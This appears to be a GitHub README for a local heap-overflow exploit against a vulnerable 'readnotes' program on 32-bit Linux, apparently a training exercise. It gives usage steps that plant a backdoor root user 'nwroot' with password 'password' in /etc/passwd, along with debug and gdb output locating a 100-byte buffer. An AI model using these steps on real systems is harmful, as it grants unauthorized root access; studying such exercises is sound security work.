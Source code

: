 # How to use
1. Exploit only works on 32bit Linux Systems
2. chmod +x readnotes && chmod +x exploit
3. ./exploit
4. cat /etc/passwd
   - You'll see a new root user has been created call
   nwroot. Login:
     - su nwroot
     - password
5. You now got root as a local user by exploiting the heap

# How we noticed the overflow
root:~# ./readnotes "testnotes"
[DEBUG] buffer   @ 0x8a3c160: 'testnotes'
[DEBUG] datafile @ 0x8a3c1d0: '/var/notes'
[DEBUG] file descriptor is 3
Note has been saved.

root:~# gdb ./readnotes
   (gdb) disas main
   (gdb) 0x08048854 <+23>:	push   $0x64
         0x08048856 <+25>:	call   0x80486e2 <ec_malloc>

- this means the variable that holds the string to send to /var/notes
is allocated 0x64 bytes == malloc(100)
